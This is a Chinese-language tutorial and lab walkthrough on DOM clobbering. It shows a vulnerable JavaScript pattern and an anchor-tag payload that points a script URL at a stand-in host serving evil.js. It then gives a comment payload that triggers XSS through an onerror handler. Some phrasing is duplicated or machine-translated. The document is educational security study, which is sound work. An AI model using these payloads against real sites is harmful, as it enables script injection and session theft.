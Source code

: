 > 
<h3>1、简述：</h3>
1、DOM clobbering：是一种将HTML注入页面以操作DOM并最终更改页面上JavaScript行为的技术。DOM clobbering在XSS不可行的情况下特别有用，但是可以控制页面上的某些HTML，在这些页面上，属性id或name被HTML过滤器列入白名单。XSS 是不可能的，但可以在 HTML 过滤器将属性 id 或名称白名单列出的页面上控制一些 HTML 。DOM clobbering最常见的形式是使用锚元素覆盖全局变量，然后应用程序以不安全的方式使用该变量，例如生成动态脚本URL。
<hr/>
2、术语clobbering来自这样一个事实，即您正在“clobbering”对象的全局变量或属性，并用DOM节点或HTML集合覆盖它。如可以使用DOM对象覆盖其他JavaScript对象，并利用不安全的名称（如submit）来干扰表单的实际submit()函数


> 
<h3>2、利用DOM-clobbering漏洞</h3>
1、JavaScript开发人员常用的模式是：
<pre>`var someObject = window.someObject || {};`</pre>
<hr/>
2、如果可以控制页面上的一些HTML，则可以使用DOM节点（如锚点anchor）来重命名someObject引用。使用 DOM 节点(例如锚)的 some 对象引用。
<pre><code>示例代码：
&lt;script&gt;
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
&lt;/script&gt;</code></pre>
要利用此易受攻击的代码，可以插入以下HTML来攻击 某些对象使用锚元素进行引用：
<pre>`&lt;a id=someObject&gt;&lt;a id=someObject name=url href=//malicious-website.com/evil.js&gt;`</pre>
由于这两个锚点使用相同的ID，DOM将它们组合在一个DOM集合中。然后，DOM clobbering向量将重写 某些对象使用此DOM集合引用。A类 姓名 属性用于最后一个定位点元素，以便清除url的属性someObject对象，该对象指向外部脚本
<hr/>
3、涉及实验：
实验6：利用DOM乱码实现XSS


---


> 
<h3> 实验6：利用DOM乱码实现XSS</h3>
信息：
1、本实验包含DOM攻击漏洞。注释功能允许“安全”HTML
2、完成实验：构造一个HTML注入，该注入会对一个变量进行clobbers，并使用XSS调用alert()函数
<hr/>
part1:
转到其中一篇博客文章并创建包含以下锚点的评论，并返回博客
<pre>`&lt;a id=defaultAvatar&gt;&lt;a id=defaultAvatar name=avatar href="cid:&amp;quot;onerror=alert(1)//"&gt;`</pre>


返回到博客文章并创建包含任意文本的第二条评论，并返回博客
加载该页时，将调用alert

<hr/>
